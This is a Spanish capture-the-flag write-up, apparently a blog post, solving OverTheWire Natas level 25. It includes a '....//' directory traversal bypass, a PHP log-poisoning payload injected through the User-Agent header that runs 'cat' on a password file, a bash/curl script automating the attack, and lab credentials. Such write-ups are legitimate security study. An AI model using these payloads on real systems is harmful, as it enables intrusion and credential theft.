 ```yaml
---
title: Natas-25
published: true
---
```


```
Url del reto: http://natas25.natas.labs.overthewire.org/index.php
login:natas25
 pass: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

Se nos presenta el siguiente código:

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```

Las funciones que vamos a tener en cuenta son:

```php
function safeinclude()
function logRequest($message)
```

Lo primero que hice es intentar mediante ruta relativa llegar al fichero donde esta la pass que es en /etc/natas_webpass/natas26.
El problema es que cuando intentamos hacer una petición GET:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Nos toparemos con el primer obstáculo de la función safeinclude()

```php
if(strstr($filename,"../")){
	logRequest("Directory traversal attempt! fixing request.");
	$filename=str_replace("../","",$filename);
}
```

Podemos saltarnos este filtro repitiendo la cadena ../

```
?lang=....//....//....//....//....//etc/natas_webpass/natas26
```

Y la función la dejará así:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Ahora nos encontramos con el siguiente obstáculo:

```php
if(strstr($filename,"natas_webpass")){
	logRequest("Illegal file access detected! Aborting!");
	exit(-1);
}
```
Si detecta la cadena natas_webpass, terminará el programa y no podremos acceder a la ruta deseada.
Me he peleado bastante intentando saltarme este filtro pero no lo conseguí. Intente:

```
escapar caracteres: natas_webpas\s
colocando espacios: natas_webpass%20
Añadiendo comodines: natas_webpas[a-z], natas_webpas?, /etc/natas*/natas26, /etc/*/natas26
Añadiendo codigos ascii: saltos de linea, null (%00)
```

Intenté entrar en diferentes archivos del sistema (logs, ficheros de configuración) para ver si había alguna fuga de información.
También intenté acceder si había alguna clave ssh en el directorio home /home/natas25/.ssh/id_rsa pero nada.

Decidí ver otra parte del código, la función listFiles no veía nada raro, asi que me centré en la función logRequest().

En esta función guarda logs de las sessiones. Asi que intenté recopilar muchas cookies e ir insertanto querys para ver si en alguna cookie era de algún admin y poder ver alguna fuga de información pero tampoco conseguí nada.

Después de muchas vueltas no me estaba dando cuenta que cuando se accede a algún log. Que para ello hay que usar la ruta relativa:

```
?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_cookie.log
```

Se veían notificaciones de PHP:

```
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
          
```

Asi que, pese a ser un fichero.log, esta ejecutando código PHP. Y viendo en la función logRequest() la siguiente línea:

```php
$log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
```

Viendo esto se me ocurrió algo. ¿Y si añadimos código PHP en este campo?:

```
user-agent: <?php phpinfo() ?>
```

Modifiqué desde el firefox la cabecera user-agent y funcionó

![](https://madmb.github.io/imgs/natas25-cap01.png)

Reenvié la petición pero esta vez con el código pertinente:

```
User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>
```

Automaticé todo el proceso mediante un script en bash:

```bash
#!/bin/bash

# /var/www/natas/natas25/logs/natas25_" . session_id() .".log"

# url principal
url_main='http://natas25.natas.labs.overthewire.org/index.php'

# Añadiremos al parametro User-Agent el codigo malicioso
payload="User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>"

# hacemos una peticion para extraer la cookie
curl --cookie-jar cookie.txt -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main &>/dev/null
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

# Esta consulta es para acceder al log de la cookie actual
query="?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_$cookie.log"

# Lanzamos un curl para que ejecute el codigo php $payload
curl --cookie "PHPSESSID=$cookie" --header "$payload" -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main${query} | html2text
```

El resultado es:

```
admin1@php:~$ bash natas25.bash 


****** natas25 ******
                                                       [One of: language/en/de]
[07.05.2022 16::02:59] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal
attempt! fixing request."
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
                                                                View_sourcecode
```

La pass para el siguiente nivel es:

```
natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```

[Volver al archivo](archive)

